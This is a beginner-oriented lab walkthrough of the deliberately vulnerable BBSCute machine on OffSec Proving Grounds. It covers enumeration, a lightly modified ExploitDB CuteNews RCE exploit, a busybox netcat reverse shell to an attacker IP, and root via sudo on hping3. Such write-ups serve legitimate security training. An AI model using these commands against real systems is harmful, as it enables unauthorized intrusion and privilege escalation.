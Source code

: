 ```yaml
---
layout: post
title: "BBSCute - Proving Grounds Play"
date: 2024-10-21
categories: ['Walkthrough', 'Linux']
comments: true
author: Hemal Maniar
description: BBS (cute) is a great beginner friendly machine for OSCP aspirants. This machine is available on OffSec's Proving Grounds Play platform. The main purpose of this writeup is to document the steps through my journey for OSCP & to help learners establish a process.
meta-description:  BBS (cute) is a great beginner friendly machine for OSCP aspirants. This machine is available on OffSec's Proving Grounds Play platform. The main purpose of this writeup is to document the steps through my journey for OSCP & to help learners establish a process.
keywords: 'bbscute,proving-grounds,walkthrough,OSCP,tryharder'
img: 
alt:

---
```


BBS (cute) is a great beginner friendly machine for OSCP aspirants. This machine is available on OffSec's Proving Grounds Play platform or can be locally spun up using Virtual Box or VMware Workstation.

[BBSCute on OffSec Portal](https://portal.offsec.com/machine/bbscute-579)

The main purpose of this writeup is to document the steps through my journey for OSCP & to help learners establish a process. I recommend you to **not use this writeup for quick & easy answers.** The idea is to help you develop your own method of pwning boxes.

**Note**: Free version of Proving Grounds allows only 3 hours of access. So, you can either spin it up using the OffSec Portal link, or download the necessary files from [VulnHub](https://www.vulnhub.com/entry/bbs-cute-102,567/) and host it locally.

With that said, let's get started with running an nmap scan against the target machine (victim). First, I am going to run a service scan against commonly used ports.
```bash
sudo nmap -sC -sV 192.168.178.128 -oA nmap -v
```
![nmap Scan](</assets/img/posts/bbscute/Pasted image 20241021134056.png>)

### System Enumeration

**Port Scan Results**

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.178.128   | **TCP**: 22,80,88,110,995

We have now gathered a list of ports open on victim machine. The one that stands out to me is port **80** & **88** which seem to be hosting HTTP server. Although port 22, 110, 139 sometimes can provide interesting information, I'm not going to prioritise them over web servers. If you're interesting in gathering information over POP3 ports, head on over to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop).

#### 80 - HTTP Enumeration

The first step is to browse to the website on http://192.168.178.128. Unfortunately, there wasn't much apart from the default Apache page. Ideally, the next step in this case is to enumerate further and discover any interesting files or directories that may be present behind the default Apache page. To do this, I am going to run [gobuster](https://www.kali.org/tools/gobuster/) against the target webserver and see if we can find something. 

This command is going to use a local wordlist along with *txt,php* file extensions.
```bash
gobuster dir -u http://192.168.178.128/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -x txt,php
```
Upon running this, I found multiple directories & files. The result produced many .php files so I started visiting each one of them one by one. Most of them led to a blank page, but one of those pages `show_news.php` showed an interesting information which says "Powered by CuteNews". Now this becomes an interesting piece of information as this sounds like a tool/system that may be running the webserver.


![](</assets/img/posts/bbscute/Pasted image 20241021141621.png>)

Just out of curiosity, I am going to see if there's any known public exploits for CuteNews. There's 2 ways to go about researching for publicly available exploits. 

    1. Google something like "cutenews exploit"
    2. Use `searchsploit` utility to search through ExploitDB database. It is important to keep the local searchsploit database updated to look for latest known exploits. This can be done by running `sudo apt-get update`

I Googled for an exploit and found one for CuteNews v2.1.2 on [ExploitDB](https://www.exploit-db.com/exploits/48800). Even though we are unaware of the version on target server, it is too good of an opportunity to give up on an unauthenticated RCE because of it. If unsuccessful, we at least know that we have to look in some other direction. `searchsploit` offers the functionality to copy an exploit to the current working directory using Exploit DBID (Here - 48800). 
```bash
searchsploit -m 48800
```

At this point, I would like to point out that it is good practice to review the code. Integrating this in your working methodology helps us to understand what the code does, and secondly, it helps us understand if the code requires any modification before running it against the victim machine. Now, if you review the original python code, it contains multiple instances of the program interacting with the URL.

```
url = f"{ip}/CuteNews/cdata/users/lines"
register = sess.post(f"{ip}/CuteNews/index.php?register", data = postdata, allow_redirects = False)
token = sess.get(f"{ip}/CuteNews/index.php?mod=main&opt=personal").text
payload_send = sess.post(f"{ip}/CuteNews/index.php", files = files).text
output = sess.post(f"{ip}/CuteNews/uploads/avatar_{logged_user}_{logged_user}.php", data=postdata)
```

But from my enumeration using `gobuster`, I know that the root directory of the URL does not contain any folder named "CuteNews". Therefore, running the original exploit against the victim will be unsuccessful. To resolve this, I am going to modify the exploit code by removing any instances of "CuteNews" from the code.

```
url = f"{ip}/cdata/users/lines"
register = sess.post(f"{ip}/index.php?register", data = postdata, allow_redirects = False)
token = sess.get(f"{ip}/index.php?mod=main&opt=personal").text
payload_send = sess.post(f"{ip}/index.php", files = files).text
output = sess.post(f"{ip}/uploads/avatar_{logged_user}_{logged_user}.php", data=postdata)
```

### Initial Foothold

We are now set to run this exploit against victim machine. 
```bash
python exploit.py
```
![](</assets/img/posts/bbscute/Pasted image 20241021141755.png>)

In the exploit prompt enter the URL `http://192.168.178.128`, and we have been dropped with a webshell. I ran the command `id` to check if it's successfully able to execute commands.\
![](</assets/img/posts/bbscute/Pasted image 20241021141810.png>)

We have a webshell running as user `www-data`. Now, I'm going to get a reverse shell from webshell for more stability. To do this, I'm first going to kick off a netcat listener on my Kali machine.
```bash
rlwrap nc -nlvp 443
```

This command will start a listener on port 443. I use port **443** as it is a commonly used port and is not usually blocked by a firewall. Now, I will run a command over webshell to get a reverse shell.
```bash
busybox nc 192.168.45.233 -e /bin/bash
```
This drops a reverse shell allowing a remote user to execute commands via `/bin/bash`. I like to use Busybox in such cases to get reverse shell, as BusyBox is an executable command intended to provide criticial Unix utilities under a single command. Combined the busybox toolset to run `nc`. Now I have a running shell as `www-data` and got `local.txt` flag.

### Privilege Escalation

Logically, the next step is to escalate user privileges and become root user. In this case, I got lucky by running the first command that I run which is:
```bash
sudo -l
```
This lists allowed commands that the current user can run as another user present within the system.\
\
![](</assets/img/posts/bbscute/Pasted image 20241021142500.png>)

It looks like the current user `www-data` is able to run `/usr/sbin/hping3 --icmp` as user `root` without the need of a password. This is perfect because now we can go looking if there exists a privilege escalation vector using `hping3`. There's a great resource [GTFObins](https://gtfobins.github.io/gtfobins/hping3/) that can be utilised to browse such vectors for various binaries. It even categorises the steps based on granted permissions. In our case, we have SUDO on `hping3`.\
![](</assets/img/posts/bbscute/Pasted image 202410211142568.png>)

I am just going to follow the recommended step and attempt to escalate my privilege. 
```bash
/usr/sbin/hping3 
hping3> /bin/sh -p
```
![](</assets/img/posts/bbscute/Pasted image 20241021142622.png>)

As we can see in the above screenshot, running the command `id` confirms that we have escalated our privileges. Now, I am simply going to grab the flag from `/root/proof.txt`.